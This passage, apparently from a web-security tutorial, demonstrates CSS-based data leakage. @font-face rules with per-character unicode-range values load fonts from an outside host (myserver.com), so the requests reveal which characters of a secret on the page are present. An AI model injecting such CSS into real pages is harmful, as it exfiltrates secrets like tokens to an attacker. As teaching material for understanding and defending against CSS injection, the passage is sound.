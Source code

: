``` html
        src: url(https://myserver.com?q=2);
        unicode-range: U+32;
      }

      @font-face {
        font-family: "f3";
        src: url(https://myserver.com?q=3);
        unicode-range: U+33;
      }

      @font-face {
        font-family: "fa";
        src: url(https://myserver.com?q=a);
        unicode-range: U+61;
      }

      @font-face {
        font-family: "fb";
        src: url(https://myserver.com?q=b);
        unicode-range: U+62;
      }

      @font-face {
        font-family: "fc";
        src: url(https://myserver.com?q=c);
        unicode-range: U+63;
      }

      div {
        font-size: 4em;
        font-family: f1, f2, f3, fa, fb, fc;
      }
    </style>
    Secret: <div>ca31a</div>
  </body>
</html>
```

If you check the network tab, you will see a total of 4 requests being sent:

![network](pics/18-01.png)
